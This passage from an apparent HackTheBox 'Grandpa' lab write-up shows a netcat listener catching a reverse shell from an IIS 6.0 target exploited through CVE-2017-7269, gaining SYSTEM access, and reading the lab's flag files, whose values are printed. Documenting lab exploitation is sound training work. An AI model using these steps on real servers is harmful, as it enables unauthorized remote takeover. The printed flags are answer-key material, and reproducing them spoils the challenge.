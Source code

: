 ```bash
┌──(bravosec㉿fsociety)-[~/htb/Grandpa/exploit/iis6-exploit-2017-CVE-2017-7269]
└─$ rlwrap -cAr nc -nlvp 1111
listening on [any] 1111 ...
connect to [10.10.16.30] from (UNKNOWN) [10.129.95.234] 1037
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
whoami
nt authority\system
```

Find flags

```bash
C:\WINDOWS\TEMP>cd "C:\Documents and Settings\"
cd "C:\Documents and Settings\"

C:\Documents and Settings>dir /b/s "*.txt"
dir /b/s "*.txt"
C:\Documents and Settings\Administrator\Cookies\administrator@microsoft[1].txt
C:\Documents and Settings\Administrator\Desktop\root.txt
...
C:\Documents and Settings\Lakis\Desktop\user.txt
C:\Documents and Settings\Lakis\Local Settings\Application Data\Microsoft\Internet Explorer\brndlog.txt
```

```bash
C:\Documents and Settings>type "C:\Documents and Settings\Administrator\Desktop\root.txt"
type "C:\Documents and Settings\Administrator\Desktop\root.txt"
aa4beed1c0584445ab463a6747bd06e9
C:\Documents and Settings>type "C:\Documents and Settings\Lakis\Desktop\user.txt"
type "C:\Documents and Settings\Lakis\Desktop\user.txt"
700c5dc163014e22b3e408f8703f67d1
```

# Additional
---

## Microsoft IIS 6.0 Remote Buffer Overflow (CVE-2017-7269)

- [[HackTheBox Writeup - Grandpa#Root Flag]]

## Metasploit

- [[HackTheBox Writeup - Grandpa#Additional#Metasploit]]